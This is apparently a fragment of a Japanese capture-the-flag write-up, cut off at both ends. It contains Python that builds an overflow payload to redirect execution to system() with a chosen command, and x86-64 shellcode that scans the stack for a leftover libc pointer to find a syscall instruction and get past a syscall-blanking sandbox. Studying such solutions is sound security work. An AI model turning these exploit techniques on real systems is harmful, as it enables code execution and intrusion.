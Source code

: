     buf = ""
    buf += "A" * (1040)
    buf += struct.pack("<Q", OBJECT + 24)                     #OBJECT GADGETのrbx
    buf += struct.pack("<Q", OBJECT + 16 - 0x80)              #OBJECT + 8
    buf += struct.pack("<Q", GADGET)                          #OBJECT + 16
    buf += "\0" * 0x180                                       #OBJECT + 24 GADGETのrbx
    buf += struct.pack("<Q", SYSTEM)                          #GADGETのrbx + 0x180 呼び出す関数へのポインタ
    buf += struct.pack("<Q", BUF + len(buf) + 8)              #GADGETのrbx + 0x188 第一引数へのポインタ
    buf += COMMAND                                            #第一引数
     
    if len(buf) > 4096:
       sys.stderr.write("error\n")
     
    sys.stdout.write(buf)

\

\

### int80

    /*
    標準入力へシェルコードを入力すると、
    ・シェルコード中のint 0x80 (cd 80)、sysenter(0f 34)、 syscall(0f 05)を潰す
    ・リターンアドレスをクリア
    ・汎用レジスタをクリア
    ・スタックの使用されている領域をクリアしてバックトレースを読めないようにする
    の後、シェルコードが実行される。
     
    その上
    ・シェルコードへの書きこみ不可
    ・ASLRが有効
    なので、一見システムコールの呼び出しは不可能に見える。
     
    しかし、スタック上側の使用されていない領域にfread()内部へのポインタが残っている
    ので、 それを利用してlibc内部のsyscall命令を探すことができる。
     
    shellcode:
    */
    .intel_syntax noprefix
    .code64
     
    mov rdi, rsp
     
    //libcを探索
    search_libc:
        mov rax, [rdi]
        mov rbx, rax
     
        //lib or stack
        //0x7f 00 00 00 00 00
        shr rax, 40
        cmp eax, 0x7f
        jnz slnext
     
        //fread の一部
        mov rcx, 0x48000080000045f7
        cmp [rbx], rcx
        jne slnext
     